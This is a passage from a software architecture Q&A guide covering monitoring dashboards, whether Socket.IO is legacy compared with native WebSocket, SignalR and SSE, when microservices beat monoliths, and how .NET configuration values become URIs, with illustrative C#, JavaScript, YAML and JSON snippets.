                    "field": "@timestamp",
                    "interval": "5m"
                  },
                  {
                    "type": "terms",
                    "field": "level.keyword",
                    "size": 5
                  }
                ]
              }
            }
          },
          {
            "visualization": {
              "title": "Error Rate by Endpoint",
              "visState": {
                "type": "bar",
                "aggs": [
                  {
                    "type": "terms",
                    "field": "Properties.RequestPath.keyword"
                  },
                  {
                    "type": "count",
                    "filter": {
                      "term": {
                        "level.keyword": "Error"
                      }
                    }
                  }
                ]
              }
            }
          }
        ]
      }
    }
  ]
}
```

### Unified Monitoring Strategy

```yaml
# monitoring-strategy.yml
monitoring_stack:
  metrics:
    tool: Prometheus + Grafana
    use_cases:
      - Application performance metrics
      - Infrastructure metrics
      - Real-time alerting
      - Custom business metrics
    
  logs:
    tool: ELK Stack (Elasticsearch + Logstash + Kibana)
    use_cases:
      - Centralized log aggregation
      - Log analysis and search
      - Security event monitoring
      - Debugging and troubleshooting
    
  traces:
    tool: Application Insights / Jaeger
    use_cases:
      - Distributed tracing
      - Performance bottleneck identification
      - Dependency mapping
      - User journey tracking
    
  synthetic_monitoring:
    tool: Azure Monitor / Pingdom
    use_cases:
      - Uptime monitoring
      - API endpoint testing
      - User flow validation
      - Global availability checking

integration_points:
  - description: "Prometheus to Elasticsearch"
    method: "Logstash HTTP poller or Metricbeat"
    
  - description: "Application Insights to Grafana"
    method: "Azure Monitor datasource plugin"
    
  - description: "Logs to Metrics"
    method: "Log-based metrics in Prometheus"

best_practices:
  - Use structured logging (JSON)
  - Implement correlation IDs
  - Set up proper retention policies
  - Create actionable alerts
  - Document dashboard purposes
  - Regular backup of configurations
  - Monitor the monitors
```

## Question 41: When is Socket.IO still needed? Why is it now considered legacy?

### Understanding Socket.IO's Place in Modern Development

Socket.IO was revolutionary when WebSocket support was inconsistent across browsers. Today, with native WebSocket support ubiquitous and modern alternatives available, Socket.IO is often considered legacy—but it still has valid use cases.

### What Socket.IO Provides

```javascript
// Socket.IO's key features
const io = require('socket.io')(server, {
  cors: {
    origin: "https://example.com",
    methods: ["GET", "POST"]
  },
  // Automatic fallbacks
  transports: ['websocket', 'polling'],
  // Built-in reconnection
  reconnection: true,
  reconnectionAttempts: 5,
  reconnectionDelay: 1000,
});

// Room-based broadcasting
io.on('connection', (socket) => {
  // Join a room
  socket.join('puzzle-room-123');
  
  // Broadcast to room
  socket.to('puzzle-room-123').emit('piece-moved', pieceData);
  
  // Acknowledgments
  socket.emit('request-data', payload, (response) => {
    console.log('Server acknowledged:', response);
  });
  
  // Automatic reconnection handling
  socket.on('disconnect', () => {
    console.log('Client disconnected, will auto-reconnect');
  });
});
```

### When Socket.IO is Still Needed

#### 1. Legacy Browser Support

```javascript
// Socket.IO handles browsers that don't support WebSockets
// Automatically falls back to HTTP long-polling

// Native WebSocket approach fails in old browsers
if (!window.WebSocket) {
  // No WebSocket support - need alternative
}

// Socket.IO handles this automatically
const socket = io({
  transports: ['websocket', 'polling'], // Automatic fallback
  upgrade: true // Upgrade to WebSocket when possible
});
```

#### 2. Complex Room/Namespace Management

```javascript
// Socket.IO's room system
io.of('/game').on('connection', (socket) => {
  const gameId = socket.handshake.query.gameId;
  socket.join(`game:${gameId}`);
  
  // Broadcast to everyone in room except sender
  socket.to(`game:${gameId}`).emit('player-joined', socket.id);
  
  // Get all clients in room
  const clients = await io.of('/game').in(`game:${gameId}`).allSockets();
  
  // Leave room
  socket.leave(`game:${gameId}`);
});

// Equivalent in plain WebSocket requires custom implementation
class RoomManager {
  constructor() {
    this.rooms = new Map();
  }
  
  join(socketId, roomId) {
    if (!this.rooms.has(roomId)) {
      this.rooms.set(roomId, new Set());
    }
    this.rooms.get(roomId).add(socketId);
  }
  
  broadcast(roomId, message, excludeSocketId) {
    const room = this.rooms.get(roomId);
    if (room) {
      room.forEach(socketId => {
        if (socketId !== excludeSocketId) {
          const socket = this.sockets.get(socketId);
          socket?.send(JSON.stringify(message));
        }
      });
    }
  }
}
```

#### 3. Built-in Message Acknowledgments

```javascript
// Socket.IO acknowledgments
socket.emit('save-progress', gameState, (response) => {
  if (response.success) {
    console.log('Progress saved');
  } else {
    console.error('Failed to save:', response.error);
  }
});

// Server side
socket.on('save-progress', async (gameState, callback) => {
  try {
    await saveToDatabase(gameState);
    callback({ success: true });
  } catch (error) {
    callback({ success: false, error: error.message });
  }
});

// Plain WebSocket needs custom protocol
class AckProtocol {
  constructor(ws) {
    this.ws = ws;
    this.callbacks = new Map();
    this.messageId = 0;
  }
  
  sendWithAck(type, data) {
    return new Promise((resolve) => {
      const id = ++this.messageId;
      this.callbacks.set(id, resolve);
      this.ws.send(JSON.stringify({ id, type, data }));
      
      // Timeout handling
      setTimeout(() => {
        if (this.callbacks.has(id)) {
          this.callbacks.delete(id);
          resolve({ timeout: true });
        }
      }, 5000);
    });
  }
  
  handleMessage(message) {
    const { id, type, data, ack } = JSON.parse(message);
    if (ack && this.callbacks.has(ack)) {
      this.callbacks.get(ack)(data);
      this.callbacks.delete(ack);
    }
  }
}
```

### Why Socket.IO is Considered Legacy

#### 1. Native WebSocket Support is Universal

```javascript
// Modern browsers all support WebSocket
// caniuse.com shows 98%+ global support

// Simple native WebSocket
const ws = new WebSocket('wss://api.example.com/ws');
ws.onopen = () => console.log('Connected');
ws.onmessage = (event) => console.log('Message:', event.data);
ws.onerror = (error) => console.error('Error:', error);
ws.onclose = () => console.log('Disconnected');

// With modern error handling
class WebSocketClient {
  constructor(url) {
    this.url = url;
    this.reconnectAttempts = 0;
    this.connect();
  }
  
  connect() {
    this.ws = new WebSocket(this.url);
    this.setupEventHandlers();
  }
  
  setupEventHandlers() {
    this.ws.onopen = () => {
      console.log('Connected');
      this.reconnectAttempts = 0;
    };
    
    this.ws.onclose = () => {
      this.reconnect();
    };
  }
  
  reconnect() {
    if (this.reconnectAttempts < 5) {
      setTimeout(() => {
        this.reconnectAttempts++;
        this.connect();
      }, Math.min(1000 * Math.pow(2, this.reconnectAttempts), 30000));
    }
  }
}
```

#### 2. Better Alternatives Exist

```csharp
// SignalR for .NET ecosystems
public class PuzzleHub : Hub
{
    public async Task JoinPuzzle(string puzzleId)
    {
        await Groups.AddToGroupAsync(Context.ConnectionId, $"puzzle-{puzzleId}");
        await Clients.Group($"puzzle-{puzzleId}").SendAsync("UserJoined", Context.UserIdentifier);
    }
    
    public async Task MovePiece(string puzzleId, PieceMove move)
    {
        // Built-in authentication, groups, and more
        await Clients.OthersInGroup($"puzzle-{puzzleId}").SendAsync("PieceMoved", move);
    }
}

// gRPC streaming for high-performance scenarios
service PuzzleService {
  rpc StreamPuzzleUpdates(StreamRequest) returns (stream PuzzleUpdate);
  rpc MovePiece(MoveRequest) returns (MoveResponse);
}

// Server-Sent Events for one-way communication
app.get('/events', (req, res) => {
  res.writeHead(200, {
    'Content-Type': 'text/event-stream',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive'
  });
  
  const sendEvent = (data) => {
    res.write(`data: ${JSON.stringify(data)}\n\n`);
  };
  
  // Clean, simple, standard
  puzzleEvents.on('update', sendEvent);
});
```

#### 3. Protocol Overhead

```javascript
// Socket.IO protocol overhead
// Each message includes metadata:
{
  "type": 2,
  "nsp": "/",
  "data": ["event-name", { /* actual data */ }],
  "id": 123
}

// vs. plain WebSocket - just send data
ws.send(JSON.stringify({ type: 'move', x: 10, y: 20 }));

// Socket.IO connection involves multiple requests:
// 1. GET /socket.io/?transport=polling
// 2. POST /socket.io/?transport=polling
// 3. GET /socket.io/?transport=websocket
// 4. Upgrade to WebSocket

// Plain WebSocket - single upgrade request
```

#### 4. Bundle Size Concerns

```yaml
Bundle Sizes:
  socket.io-client: ~90KB minified
  ws (plain WebSocket): 0KB (native)
  @microsoft/signalr: ~134KB but more features
  
Modern Alternatives:
  - Native WebSocket: 0KB
  - Native EventSource (SSE): 0KB
  - Native Fetch (streaming): 0KB
```

### Modern Alternatives Comparison

| Feature | Socket.IO | SignalR | Native WebSocket | gRPC-Web | SSE |
|---------|-----------|---------|------------------|----------|-----|
| **Fallback transports** | ✓ | ✓ | ✗ | ✗ | ✗ |
| **Auto-reconnection** | ✓ | ✓ | Manual | Manual | ✓ |
| **Rooms/Groups** | ✓ | ✓ | Manual | Manual | ✗ |
| **Binary support** | ✓ | ✓ | ✓ | ✓ | ✗ |
| **Bundle size** | Large | Large | None | Medium | None |
| **Protocol overhead** | High | Medium | Low | Low | Low |
| **Authentication** | Manual | Built-in | Manual | Built-in | Manual |

### Migration Path from Socket.IO

```javascript
// Before: Socket.IO
const socket = io('https://api.example.com');
socket.on('connect', () => {
  socket.emit('join-room', roomId);
});
socket.on('message', (data) => {
  console.log(data);
});

// After: Modern WebSocket with reconnection
class ModernWebSocket {
  constructor(url) {
    this.url = url;
    this.listeners = new Map();
    this.reconnectDelay = 1000;
    this.shouldReconnect = true;
    this.connect();
  }
  
  connect() {
    this.ws = new WebSocket(this.url);
    
    this.ws.onopen = () => {
      this.reconnectDelay = 1000;
      this.emit('connect');
    };
    
    this.ws.onmessage = (event) => {
      const { type, data } = JSON.parse(event.data);
      this.emit(type, data);
    };
    
    this.ws.onclose = () => {
      if (this.shouldReconnect) {
        setTimeout(() => this.connect(), this.reconnectDelay);
        this.reconnectDelay = Math.min(this.reconnectDelay * 2, 30000);
      }
    };
  }
  
  on(event, callback) {
    if (!this.listeners.has(event)) {
      this.listeners.set(event, new Set());
    }
    this.listeners.get(event).add(callback);
  }
  
  emit(event, data) {
    const callbacks = this.listeners.get(event);
    if (callbacks) {
      callbacks.forEach(cb => cb(data));
    }
  }
  
  send(type, data) {
    if (this.ws.readyState === WebSocket.OPEN) {
      this.ws.send(JSON.stringify({ type, data }));
    }
  }
}

// Usage similar to Socket.IO
const ws = new ModernWebSocket('wss://api.example.com');
ws.on('connect', () => {
  ws.send('join-room', roomId);
});
ws.on('message', (data) => {
  console.log(data);
});
```

### When to Keep Socket.IO

```yaml
Keep Socket.IO When:
  - Supporting browsers older than 2017
  - Existing large codebase using Socket.IO
  - Need drop-in fallback to polling
  - Complex room management is core feature
  - Team expertise is with Socket.IO
  - Third-party integrations require it

Migrate Away When:
  - Starting new project
  - Modern browser support only
  - Performance is critical
  - Bundle size matters
  - Want standard protocols
  - Need better TypeScript support
  - Prefer native solutions
```

### Best Practices for Modern Real-Time

```javascript
// 1. Use native WebSocket with proper abstraction
class RealtimeConnection {
  constructor(url, options = {}) {
    this.url = url;
    this.options = {
      reconnect: true,
      reconnectDelay: 1000,
      maxReconnectDelay: 30000,
      reconnectDecay: 1.5,
      timeout: 10000,
      ...options
    };
  }
  
  // Implement Socket.IO-like API if needed for migration
}

// 2. Consider Server-Sent Events for one-way
if (typeof EventSource !== 'undefined') {
  const events = new EventSource('/events');
  events.onmessage = (e) => {
    const data = JSON.parse(e.data);
    updateUI(data);
  };
}

// 3. Use HTTP/2 Server Push where applicable
// 4. Consider WebTransport for future
// 5. Use SignalR for .NET environments
// 6. Use gRPC for service-to-service
```

### Summary

Socket.IO is legacy because:
1. **Native WebSocket support is universal** - 98%+ browser support
2. **Better alternatives exist** - SignalR, native WebSocket, SSE
3. **Large bundle size** - 90KB vs 0KB for native
4. **Protocol overhead** - Extra metadata in every message
5. **Non-standard protocol** - Harder to integrate with other systems

Still use Socket.IO when:
1. **Legacy browser support needed** - Pre-2017 browsers
2. **Complex room management** - Built-in room/namespace features
3. **Existing investment** - Large codebase already using it
4. **Fallback critical** - Must support any network condition
5. **Team expertise** - Developers know Socket.IO well

For new projects, prefer native WebSocket with a thin abstraction layer or use modern alternatives like SignalR for specific ecosystems.

## Question 42: Define Micro-services and what they have replaced. Is microservices always better now?

### Understanding Microservices Architecture

Microservices are an architectural pattern where applications are built as a collection of small, autonomous services that communicate over well-defined APIs. Each service is independently deployable, scalable, and focused on a specific business capability.

### What Microservices Replaced

#### 1. Monolithic Architecture

```csharp
// Traditional Monolith - Everything in one application
public class MonolithicPuzzleApplication
{
    // All functionality in single deployable unit
    public class UserController : Controller { }
    public class PuzzleController : Controller { }
    public class PaymentController : Controller { }
    public class NotificationService { }
    public class ImageProcessingService { }
    public class DatabaseContext : DbContext { }
    
    // Single database for everything
    // Single deployment pipeline
    // Shared memory and resources
}

// Microservices - Distributed services
// User Service
public class UserService
{
    private readonly UserDbContext _db;
    private readonly IMessageBus _bus;
    
    [HttpPost("users")]
    public async Task<User> CreateUser(CreateUserDto dto)
    {
        var user = await _db.Users.AddAsync(new User(dto));
        await _bus.PublishAsync(new UserCreatedEvent(user.Id));
        return user;
    }
}

// Puzzle Service (separate deployment)
public class PuzzleService
{
    private readonly PuzzleDbContext _db;
    private readonly IUserServiceClient _userService;
    
    [HttpPost("puzzles")]
    public async Task<Puzzle> CreatePuzzle(CreatePuzzleDto dto)
    {
        // Call user service to validate
        var user = await _userService.GetUserAsync(dto.UserId);
        return await _db.Puzzles.AddAsync(new Puzzle(dto));
    }
}
```

#### 2. Service-Oriented Architecture (SOA)

```xml
<!-- Traditional SOA - Heavy SOAP services -->
<wsdl:definitions name="PuzzleService">
  <wsdl:types>
    <xsd:schema>
      <xsd:complexType name="CreatePuzzleRequest">
        <xsd:sequence>
          <xsd:element name="Name" type="xsd:string"/>
          <xsd:element name="Pieces" type="xsd:int"/>
        </xsd:sequence>
      </xsd:complexType>
    </xsd:schema>
  </wsdl:types>
</wsdl:definitions>

<!-- Microservices - Lightweight REST/gRPC -->
// puzzle.proto
service PuzzleService {
  rpc CreatePuzzle(CreatePuzzleRequest) returns (Puzzle);
}

message CreatePuzzleRequest {
  string name = 1;
  int32 pieces = 2;
}
```

### Microservices Characteristics

```yaml
Key Characteristics:
  1. Single Responsibility:
     - Each service owns one business capability
     - Clear boundaries and interfaces
     - Independent data stores
  
  2. Autonomous Teams:
     - Teams own their services end-to-end
     - Choose their own tech stack
     - Deploy independently
  
  3. Decentralized:
     - No central database
     - No shared libraries (mostly)
     - Distributed decision making
  
  4. Fault Isolation:
     - One service failure doesn't crash system
     - Circuit breakers prevent cascades
     - Graceful degradation
  
  5. Scalability:
     - Scale services independently
     - Different scaling strategies per service
     - Cost-effective resource usage
```

### Example: Puzzle Platform as Microservices

```yaml
# docker-compose.yml for microservices
version: '3.8'

services:
  # API Gateway
  api-gateway:
    image: puzzle/api-gateway
    ports:
      - "80:80"
    environment:
      - SERVICES__USER=http://user-service
      - SERVICES__PUZZLE=http://puzzle-service
      - SERVICES__MEDIA=http://media-service
  
  # User Service
  user-service:
    image: puzzle/user-service
    environment:
      - DATABASE__CONNECTION=Server=user-db;Database=Users
      - MESSAGEBUS__CONNECTION=rabbitmq://rabbitmq
    depends_on:
      - user-db
      - rabbitmq
  
  # Puzzle Service
  puzzle-service:
    image: puzzle/puzzle-service
    environment:
      - DATABASE__CONNECTION=Server=puzzle-db;Database=Puzzles
      - SERVICES__USER=http://user-service
      - SERVICES__MEDIA=http://media-service
    depends_on:
      - puzzle-db
  
  # Media Service
  media-service:
    image: puzzle/media-service
    environment:
      - STORAGE__CONNECTION=DefaultEndpointsProtocol=https;...
      - MESSAGEBUS__CONNECTION=rabbitmq://rabbitmq
    depends_on:
      - rabbitmq
  
  # Notification Service
  notification-service:
    image: puzzle/notification-service
    environment:
      - EMAIL__SMTP=smtp.sendgrid.net
      - MESSAGEBUS__CONNECTION=rabbitmq://rabbitmq
    depends_on:
      - rabbitmq
  
  # Databases (one per service)
  user-db:
    image: postgres:15
    environment:
      - POSTGRES_DB=users
  
  puzzle-db:
    image: postgres:15
    environment:
      - POSTGRES_DB=puzzles
  
  # Message Bus
  rabbitmq:
    image: rabbitmq:3-management
    ports:
      - "15672:15672"
```

### When Microservices Are Better

#### 1. Large, Complex Systems

```csharp
// Complex domain with clear boundaries
public class EcommercePlatform
{
    // These make sense as separate services
    public class CatalogService { }      // Millions of products
    public class OrderService { }        // Complex workflows
    public class PaymentService { }      // PCI compliance
    public class InventoryService { }    // Real-time updates
    public class ShippingService { }     // Multiple providers
    public class UserService { }         // Authentication/profiles
    public class RecommendationService { } // ML models
}
```

#### 2. Independent Scaling Needs

```yaml
Service Scaling Examples:
  User Service:
    - Steady load
    - Scale: 2-4 instances
    - Memory: 512MB each
  
  Media Processing:
    - Burst processing
    - Scale: 0-50 instances
    - Memory: 4GB each
    - GPU enabled
  
  Recommendation Engine:
    - CPU intensive
    - Scale: 5-10 instances
    - Memory: 8GB each
    - ML optimized instances
```

#### 3. Technology Diversity

```yaml
Polyglot Microservices:
  User Service:
    - Language: Java
    - Framework: Spring Boot
    - Database: PostgreSQL
    - Why: Team expertise, ecosystem
  
  Real-time Service:
    - Language: Go
    - Framework: Custom
    - Database: Redis
    - Why: Performance, concurrency
  
  ML Service:
    - Language: Python
    - Framework: FastAPI
    - Database: MongoDB
    - Why: ML libraries, data science team
  
  Media Processing:
    - Language: Rust
    - Framework: Actix
    - Storage: S3
    - Why: Performance, safety
```

### When Microservices Are NOT Better

#### 1. Small Applications

```csharp
// Overkill for simple CRUD app
public class SimpleBlogApp
{
    // This should be monolithic
    // - 3 developers
    // - 1000 users
    // - Basic CRUD operations
    // - No complex integrations
    
    // Microservices would add:
    // - Network latency
    // - Deployment complexity
    // - Debugging difficulty
    // - Infrastructure cost
}
```

#### 2. Tight Coupling Requirements

```csharp
// Transactional consistency needed
public class BankingSystem
{
    public async Task TransferMoney(Account from, Account to, decimal amount)
    {
        // This MUST be atomic - hard with microservices
        using (var transaction = await _db.BeginTransactionAsync())
        {
            from.Balance -= amount;
            to.Balance += amount;
            await _db.SaveChangesAsync();
            await transaction.CommitAsync();
        }
    }
}

// Microservices require distributed transactions
public class DistributedTransfer
{
    // Complex saga pattern needed
    public async Task TransferMoney(TransferRequest request)
    {
        var saga = new TransferSaga();
        await saga.StartAsync();
        
        try
        {
            await _accountService.DebitAsync(request.From, request.Amount);
            await _accountService.CreditAsync(request.To, request.Amount);
            await saga.CompleteAsync();
        }
        catch
        {
            await saga.CompensateAsync(); // Rollback is complex
        }
    }
}
```

#### 3. Small Teams

```yaml
Team Size Considerations:
  Monolith (Good for):
    - 1-10 developers
    - Single team
    - Shared codebase
    - Quick iteration
  
  Microservices (Requires):
    - Multiple teams
    - DevOps expertise
    - Service ownership
    - On-call rotations
```

### The Middle Ground: Modular Monolith

```csharp
// Modular Monolith - Best of both worlds
namespace PuzzlePlatform.Modules.Users
{
    public class UsersModule : IModule
    {
        public void ConfigureServices(IServiceCollection services)
        {
            services.AddDbContext<UsersDbContext>();
            services.AddScoped<IUserService, UserService>();
        }
        
        public void Configure(IApplicationBuilder app)
        {
            app.UseEndpoints(endpoints =>
            {
                endpoints.MapUsersApi();
            });
        }
    }
}

namespace PuzzlePlatform.Modules.Puzzles
{
    public class PuzzlesModule : IModule
    {
        // Separate module, same process
        // Can be extracted to microservice later
    }
}
```

### Microservices Challenges

```yaml
Operational Complexity:
  - Service discovery
  - Load balancing
  - Circuit breakers
  - Distributed tracing
  - Log aggregation
  - Monitoring/alerting
  - Service mesh

Development Challenges:
  - Distributed transactions
  - Data consistency
  - Testing complexity
  - Debugging difficulty
  - Versioning APIs
  - Network latency

Organizational Challenges:
  - Team coordination
  - Service ownership
  - On-call responsibilities
  - Cross-team dependencies
  - Governance
```

### Decision Framework

```yaml
Choose Microservices When:
  ✅ Large, complex domain
  ✅ Multiple teams (>20 developers)
  ✅ Different scaling requirements
  ✅ Technology diversity needed
  ✅ Independent deployment critical
  ✅ Fault isolation important
  ✅ Different compliance requirements
  ✅ Clear bounded contexts

Stay Monolithic When:
  ✅ Small team (<10 developers)
  ✅ Simple domain
  ✅ Rapid prototyping
  ✅ Tight transactional requirements
  ✅ Limited DevOps expertise
  ✅ Cost-sensitive
  ✅ Early-stage startup

Consider Modular Monolith When:
  ✅ Medium complexity
  ✅ Want microservices benefits
  ✅ Not ready for distribution
  ✅ Planning future extraction
```

### Real-World Examples

```yaml
Successful Microservices:
  Netflix:
    - 700+ microservices
    - Massive scale
    - Independent teams
    - Technology innovation
  
  Amazon:
    - Service-oriented since 2002
    - Two-pizza teams
    - API-first design
    - Independent deployment
  
  Uber:
    - 1000+ microservices
    - Polyglot architecture
    - Domain-driven design
    - Service mesh (Envoy)

Successful Monoliths:
  Stack Overflow:
    - Monolithic architecture
    - Handles massive traffic
    - Small team
    - Excellent performance
  
  Basecamp:
    - Majestic monolith
    - Rapid development
    - Small team
    - Simple deployment
  
  Shopify (originally):
    - Started monolithic
    - Modular architecture
    - Extracted services gradually
    - Pragmatic approach
```

### Best Practices for Microservices

```csharp
// 1. API Gateway Pattern
public class ApiGateway
{
    public async Task<PuzzleDetailsDto> GetPuzzleDetails(int puzzleId)
    {
        // Aggregate data from multiple services
        var tasks = new[]
        {
            _puzzleService.GetPuzzleAsync(puzzleId),
            _mediaService.GetImagesAsync(puzzleId),
            _userService.GetCreatorAsync(puzzleId),
            _statsService.GetStatsAsync(puzzleId)
        };
        
        await Task.WhenAll(tasks);
        
        return new PuzzleDetailsDto
        {
            Puzzle = tasks[0].Result,
            Images = tasks[1].Result,
            Creator = tasks[2].Result,
            Stats = tasks[3].Result
        };
    }
}

// 2. Service Discovery
public class ServiceRegistry
{
    private readonly IConfiguration _config;
    
    public Uri GetServiceUri(string serviceName)
    {
        // From configuration
        var uri = _config[$"Services:{serviceName}"];
        
        // Or from service discovery (Consul, Eureka)
        // var uri = await _consul.GetServiceAsync(serviceName);
        
        return new Uri(uri);
    }
}

// 3. Circuit Breaker
public class ResilientServiceClient
{
    private readonly IHttpClientFactory _clientFactory;
    private readonly IAsyncPolicy<HttpResponseMessage> _policy;
    
    public ResilientServiceClient()
    {
        _policy = Policy
            .HandleResult<HttpResponseMessage>(r => !r.IsSuccessStatusCode)
            .CircuitBreakerAsync(3, TimeSpan.FromSeconds(30));
    }
    
    public async Task<T> GetAsync<T>(string service, string endpoint)
    {
        var client = _clientFactory.CreateClient(service);
        var response = await _policy.ExecuteAsync(
            async () => await client.GetAsync(endpoint)
        );
        return await response.Content.ReadFromJsonAsync<T>();
    }
}
```

### Summary

Microservices are **not always better**. They solve specific problems:
- **Scale**: Independent scaling of components
- **Teams**: Autonomous team organization
- **Technology**: Use best tool for each job
- **Resilience**: Fault isolation
- **Deployment**: Independent release cycles

But they introduce complexity:
- **Operations**: Distributed system challenges
- **Development**: Cross-service coordination
- **Testing**: Integration complexity
- **Debugging**: Distributed tracing needed
- **Costs**: More infrastructure

**Start monolithic**, design modular, extract to microservices when the benefits outweigh the costs. The best architecture is the simplest one that solves your current problems while allowing for future growth.

## Question 43: How does URI(Configuration["services:mediaservice"]) able to create a valid URI?

### Understanding .NET Configuration and URI Construction

The pattern `new URI(Configuration["services:mediaservice"])` works because of how .NET's configuration system loads and structures data from various sources, combined with the URI class's flexible parsing capabilities.

### Configuration System Hierarchy

```json
// appsettings.json
{
  "Services": {
    "MediaService": "https://media.puzzleapp.com",
    "UserService": "https://users.puzzleapp.com:8443",
    "PuzzleService": "http://puzzle-service.internal:5000"
  }
}

// appsettings.Development.json (overrides)
{
  "Services": {
    "MediaService": "http://localhost:5001",
    "UserService": "http://localhost:5002",
    "PuzzleService": "http://localhost:5003"
  }
}
```

### How Configuration Indexer Works

```csharp
public class ConfigurationExample
{
    private readonly IConfiguration _configuration;
    
    public void DemonstrateConfigurationAccess()
    {
        // Case-insensitive hierarchical access
        string url1 = _configuration["Services:MediaService"];     // Works
        string url2 = _configuration["services:mediaservice"];     // Also works
        string url3 = _configuration["SERVICES:MEDIASERVICE"];     // Also works
        
        // All return: "http://localhost:5001" (in Development)
        
        // Alternative syntaxes
        var section = _configuration.GetSection("Services");
        string url4 = section["MediaService"];
        string url5 = section.GetValue<string>("MediaService");
        
        // Strongly typed
        var services = _configuration.GetSection("Services").Get<ServicesConfig>();
    }
}
```

### URI Class Parsing

```csharp
// The URI constructor is very flexible
public void DemonstrateUriParsing()
{
    // All of these create valid URIs
    var uri1 = new Uri("http://localhost:5000");
    var uri2 = new Uri("https://api.example.com:443/v1/users");
    var uri3 = new Uri("http://service.internal");
    var uri4 = new Uri("ws://websocket.server:8080/hub");
    
    // URI components
    var mediaUri = new Uri(_configuration["Services:MediaService"]);
    Console.WriteLine($"Scheme: {mediaUri.Scheme}");     // http or https
    Console.WriteLine($"Host: {mediaUri.Host}");         // localhost or domain
    Console.WriteLine($"Port: {mediaUri.Port}");         // 5001 or 443
    Console.WriteLine($"Path: {mediaUri.AbsolutePath}"); // /path if present
}
```

### Configuration Sources and Priority

```csharp
// Program.cs - Configuration building
var builder = WebApplication.CreateBuilder(args);

// Configuration sources are loaded in order (later overrides earlier)
builder.Configuration
    .AddJsonFile("appsettings.json", optional: false, reloadOnChange: true)
    .AddJsonFile($"appsettings.{environment}.json", optional: true)
    .AddEnvironmentVariables()
    .AddCommandLine(args)
    .AddUserSecrets<Program>()  // Development only
    .AddAzureKeyVault();        // Production

// Environment variables can override
// SERVICES__MEDIASERVICE=https://prod-media.example.com
```

### Different Configuration Formats

```yaml
# appsettings.yaml (if using YAML provider)
Services:
  MediaService: https://media.puzzleapp.com
  UserService: https://users.puzzleapp.com
  PuzzleService: http://puzzle-service:5000
```

```xml
<!-- appsettings.xml (if using XML provider) -->
<configuration>
  <Services>
    <MediaService>https://media.puzzleapp.com</MediaService>
    <UserService>https://users.puzzleapp.com</UserService>
  </Services>
</configuration>
```

```ini
; appsettings.ini (if using INI provider)
[Services]
MediaService=https://media.puzzleapp.com
UserService=https://users.puzzleapp.com
```

### Environment Variable Mapping

```bash
# Environment variables use __ (double underscore) for hierarchy
export SERVICES__MEDIASERVICE="https://media.puzzleapp.com"
export SERVICES__USERSERVICE="https://users.puzzleapp.com"

# In Windows
set SERVICES__MEDIASERVICE=https://media.puzzleapp.com

# In Docker
docker run -e SERVICES__MEDIASERVICE=https://media.puzzleapp.com myapp

# In Kubernetes
env:
  - name: SERVICES__MEDIASERVICE
    value: "https://media.puzzleapp.com"
```

### Real-World Implementation

```csharp
public class MediaServiceClient
{
    private readonly HttpClient _httpClient;
    private readonly IConfiguration _configuration;
    private readonly ILogger<MediaServiceClient> _logger;
    
    public MediaServiceClient(
        HttpClient httpClient,
        IConfiguration configuration,
        ILogger<MediaServiceClient> logger)
    {
        _httpClient = httpClient;
        _configuration = configuration;
        _logger = logger;
        
        // Set base address from configuration
        var mediaServiceUrl = _configuration["Services:MediaService"];
        if (string.IsNullOrEmpty(mediaServiceUrl))
        {
            throw new InvalidOperationException(
                "Services:MediaService configuration is missing");
        }
        
        try
        {
            _httpClient.BaseAddress = new Uri(mediaServiceUrl);
            _logger.LogInformation("MediaService client initialized with URL: {Url}", 
                mediaServiceUrl);
        }
        catch (UriFormatException ex)
        {
            throw new InvalidOperationException(
                $"Invalid URI format for MediaService: {mediaServiceUrl}", ex);
        }
    }
    
    public async Task<byte[]> GetImageAsync(string imageId)
    {
        var response = await _httpClient.GetAsync($"/api/images/{imageId}");
        response.EnsureSuccessStatusCode();
        return await response.Content.ReadAsByteArrayAsync();
    }
}
```

### Dependency Injection Configuration

```csharp
// Program.cs or Startup.cs
public class Startup
{
    public void ConfigureServices(IServiceCollection services)
    {
        // Configure HttpClient with base URL from configuration
        services.AddHttpClient<MediaServiceClient>((serviceProvider, client) =>
        {
            var configuration = serviceProvider.GetRequiredService<IConfiguration>();
            client.BaseAddress = new Uri(configuration["Services:MediaService"]);
            client.DefaultRequestHeaders.Add("Accept", "application/json");
        });
        
        // Alternative: Using typed configuration
        services.Configure<ServiceEndpoints>(
            Configuration.GetSection("Services"));
        
        services.AddHttpClient<UserServiceClient>((serviceProvider, client) =>
        {
            var endpoints = serviceProvider
                .GetRequiredService<IOptions<ServiceEndpoints>>().Value;
            client.BaseAddress = new Uri(endpoints.UserService);
        });
    }
}

// Strongly typed configuration
public class ServiceEndpoints
{
    public string MediaService { get; set; }
    public string UserService { get; set; }
    public string PuzzleService { get; set; }
    
    // Validation
    public void Validate()
    {
        ValidateUri(nameof(MediaService), MediaService);
        ValidateUri(nameof(UserService), UserService);
        ValidateUri(nameof(PuzzleService), PuzzleService);
    }
    
    private void ValidateUri(string name, string uri)
    {
        if (string.IsNullOrEmpty(uri))
            throw new InvalidOperationException($"{name} is required");
            
        if (!Uri.TryCreate(uri, UriKind.Absolute, out _))
            throw new InvalidOperationException($"{name} is not a valid URI: {uri}");
    }
}
```

### Configuration Validation

```csharp
// Options validation
public class ServiceEndpointsValidator : IValidateOptions<ServiceEndpoints>
{
    public ValidateOptionsResult Validate(string name, ServiceEndpoints options)
    {
        var failures = new List<string>();
        
        if (!IsValidUri(options.MediaService))
            failures.Add($"{nameof(options.MediaService)} is not a valid URI");
            
        if (!IsValidUri(options.UserService))
            failures.Add($"{nameof(options.UserService)} is not a valid URI");
            
        return failures.Any() 
            ? ValidateOptionsResult.Fail(failures) 
            : ValidateOptionsResult.Success;
    }
    
    private bool IsValidUri(string uri) => 
        !string.IsNullOrEmpty(uri) && Uri.TryCreate(uri, UriKind.Absolute, out _);
}

// Register validation
services.AddSingleton<IValidateOptions<ServiceEndpoints>, ServiceEndpointsValidator>();
```

### Handling Different Environments

```csharp
public class MultiEnvironmentConfiguration
{
    private readonly IConfiguration _configuration;
    private readonly IHostEnvironment _environment;
    
    public Uri GetServiceUri(string serviceName)
    {
        // Environment-specific configuration
        var uri = _environment.IsDevelopment()
            ? _configuration[$"Services:{serviceName}:Development"]
            : _configuration[$"Services:{serviceName}:Production"];
            
        // Fallback to default
        uri ??= _configuration[$"Services:{serviceName}"];
        
        if (string.IsNullOrEmpty(uri))
        {
            throw new InvalidOperationException(
                $"No configuration found for service: {serviceName}");
        }
        
        return new Uri(uri);
    }
}
```

### Service Discovery Integration

```csharp
public class DynamicServiceConfiguration
{
    private readonly IConfiguration _configuration;
    private readonly IServiceDiscovery _serviceDiscovery;
    
